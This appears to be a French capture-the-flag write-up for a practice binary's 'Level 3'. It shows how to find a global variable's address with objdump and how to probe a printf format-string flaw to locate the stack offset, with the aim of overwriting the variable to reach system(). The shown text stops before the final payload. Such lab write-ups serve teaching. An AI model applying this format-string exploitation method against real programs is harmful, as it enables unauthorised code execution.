

# Level 3




On a une variable globale qui est `m`, cette variable est par default sur 0. L'objectif c'est de la modifier pour appeler le `system()`.

On va pouvoir le modifier via `printf` et la faille, pour ce faite il nous faut l'addresse de `m`. on va utiliser objdump et afficher le symbol table.

```
$ objdump -t level3

level3:     file format elf32-i386

SYMBOL TABLE:
080484a4 g     F .text	00000076              v
0804983c g       .data	00000000              __data_start
00000000       F *UND*	00000000              system@@GLIBC_2.0
080483f0 g     F .text	00000000              _start
080485f8 g     O .rodata	00000004              _fp_hw
0804988c g     O .bss	00000004              m
08049880 g     O .bss	00000004              stdout@@GLIBC_2.0
```
On va pouvoir lancer le programme avec notre propre `format string` et afficher la mémoire de la stack. En commençant par trouver l'adresse / offset du paramètre.
```
$ echo "BBBB %x %x %x %x %x %x" | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825
```
